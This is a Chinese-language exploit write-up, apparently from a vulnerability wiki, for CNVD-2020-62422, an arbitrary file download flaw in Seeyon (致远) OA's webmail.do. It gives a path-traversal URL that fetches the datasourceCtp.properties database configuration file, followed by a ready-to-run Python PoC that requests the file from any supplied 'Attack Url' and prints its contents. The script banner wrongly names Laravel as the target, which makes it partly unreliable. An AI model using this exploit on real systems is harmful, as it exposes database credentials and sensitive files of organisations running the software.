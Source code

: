 # 致远OA webmail.do任意文件下载 CNVD-2020-62422

## 漏洞描述

致远OA存在任意文件下载漏洞，攻击者可利用该漏洞下载任意文件，获取敏感信息

## 漏洞影响

> [!NOTE]
>
> 致远OA A6-V5
>
> 致远OA A8-V5
>
> 致远OA G6

## 漏洞复现

访问 url  http://xxx.xxx.xxx.xxx/seeyon/webmail.do?method=doDownloadAtt&filename=PeiQi.txt&filePath=../conf/datasourceCtp.properties

存在漏洞的OA 系统将会下载 **datasourceCtp.properties** 配置文件

![](image/zhiyuan-11.png)

更改参数 filePath 可下载其他文件

##  漏洞利用POC

```python
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Laravel framework <= 5.5.21                              \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/seeyon/webmail.do?method=doDownloadAtt&filename=PeiQi.txt&filePath=../conf/datasourceCtp.properties"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "workflow" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 文件请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](image/zhiyuan-12.png)

## Goby & POC

![](image/zhiyuan-13.png)